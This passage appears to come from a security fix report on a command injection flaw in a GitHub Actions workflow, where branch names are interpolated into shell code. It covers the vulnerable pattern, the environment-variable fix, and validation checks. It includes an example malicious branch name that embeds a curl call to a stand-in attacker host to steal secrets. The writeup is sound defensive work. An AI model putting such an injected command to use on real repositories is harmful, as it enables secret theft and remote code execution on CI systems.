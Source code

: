 **Expected:** Remote Code Execution (RCE) ⚠️

#### Post-Fix State (SECURE)

**Attack Scenario:**
```bash
# Same malicious branch
git checkout -b "feature/\$(curl https://attacker.com/steal-secrets)"

# Workflow reads environment variable
TARGET_BRANCH="${GITHUB_HEAD_REF:-$GITHUB_REF_NAME}"
# Shell reads literal value: "feature/$(curl https://attacker.com/steal-secrets)"
# No execution, treated as string
```

**Expected:** No code execution, branch name used as literal string ✅

#### Validation

| Test | Method | Expected Result |
|------|--------|----------------|
| Shell syntax | `bash -n gdd-repair.yml` (extract shell) | No syntax errors ✅ |
| Environment variables | Check `GITHUB_HEAD_REF` exists | Pre-populated by Actions ✅ |
| Fallback logic | Check `GITHUB_REF_NAME` fallback | Works when `GITHUB_HEAD_REF` empty ✅ |
| Security pattern | Search for `${{ }}` in shell scripts | No interpolation in shell context ✅ |

---

## 6. Implementation Details

### Issue 1: Command Injection (Critical Security)

**Vulnerability Analysis:**

**CWE-78: OS Command Injection**
- **CVSS Score:** 9.8 (Critical) - Hypothetical, not published CVE
- **Attack Vector:** Network (malicious branch name via GitHub)
- **Privileges Required:** Low (any contributor with branch creation rights)
- **User Interaction:** None (automatic on workflow trigger)
- **Impact:** Confidentiality/Integrity/Availability (CIA) all HIGH

**Root Cause:**
```yaml
TARGET_BRANCH="${{ github.head_ref || github.ref_name }}"
```

**Why This is Vulnerable:**
1. GitHub Actions evaluates `${{ }}` expressions FIRST
2. Result is interpolated into shell script as string
3. Shell re-parses the string during variable assignment
4. Command substitution `$(...)` executes if present in branch name
5. Attacker controls branch name → Attacker controls execution
